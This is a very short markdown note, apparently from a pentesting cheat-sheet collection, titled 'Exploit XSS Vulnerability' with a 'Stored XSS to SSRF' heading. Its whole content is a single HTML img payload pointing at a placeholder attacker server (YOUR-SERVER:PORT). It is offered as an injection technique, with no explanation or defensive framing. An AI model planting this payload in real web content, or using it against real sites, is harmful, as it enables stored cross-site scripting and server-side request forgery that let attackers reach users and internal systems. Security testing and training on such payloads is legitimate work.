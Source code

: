 #                                         Exploit XSS Vulnerability 

## Stored XSS to SSRF 
```code
<img src="http://YOUR-SERVER:PORT">
```
 
